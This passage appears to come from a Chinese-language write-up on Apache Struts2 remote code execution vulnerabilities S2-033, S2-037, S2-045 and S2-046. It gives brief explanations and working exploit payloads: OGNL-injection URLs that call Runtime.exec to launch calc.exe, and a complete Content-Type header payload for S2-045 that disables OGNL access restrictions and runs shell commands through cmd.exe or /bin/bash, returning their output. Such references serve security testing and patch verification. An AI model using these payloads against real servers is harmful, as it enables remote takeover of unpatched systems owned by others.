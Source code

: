 **S2-033**

该漏洞依附于S2-032漏洞，当开启动态方法调用，并且同时使用了Strut2 REST Plugin插件时，使用“!”操作符调用动态方法可能执行ognl表达式，导致代码执行。

EXP:[](http://localhost:8080/struts2-rest-showcase-280/orders/3!%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.command%5B0%5D),%23xx%3D123,%23xx.toString.json?&amp;command=calc.exe)

```
http://localhost:8080/struts2-rest-showcase-280/orders/3!%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.command[0]),%23xx%3d123,%23xx.toString.json?&amp;command=calc.exe
```

**S2-037**

该漏洞受影响版本等同于S2-032、S2-003，尽管不需要配置struts.enable.DynamicMethodInvocation为true，但是需要调用Strut2 REST 插件才能触发。Strut2 REST还支持actionName/id/methodName这种方式处理解析uri，直接将id后面的内容作为method属性设置到mapping中。

EXP:[](http://localhost:8080/struts2-rest-showcase-280/orders/3/%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.command%5B0%5D),%23xx%3D123,%23xx.toString.json?&amp;command=calc.exe)

```
http://localhost:8080/struts2-rest-showcase-280/orders/3/%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.command[0]),%23xx%3d123,%23xx.toString.json?&amp;command=calc.exe
```



**七 S2-045 、S2-046**

受影响的版本：



Struts 2.3.5 – Struts 2.3.31

Struts 2.5 – Struts 2.5.10

**S2-045:**

这个漏洞是由于Strus2对错误消息处理出现了问题，通过Content-Type这个header头，注入OGNL语言，进而执行命令。攻击者可以将恶意代码通过http报文头部的Content-Type字段传递给存在漏洞的服务器，导致任意代码执行漏洞，要想顺利触发德华，lib中一定要有commons-fileupload-x.x.x.jar包

```
Content-Type：%`{`(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?`{`'cmd.exe','/c',#cmd`}`:`{`'/bin/bash','-c',#cmd`}`)).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())`}`
```

**S2-046:**

该漏洞与S2-045触发点一样，但利用方式不同，使用恶意的Content-Disposition值或者使用不合适的Content-Length头就可能导致远程命令执行。

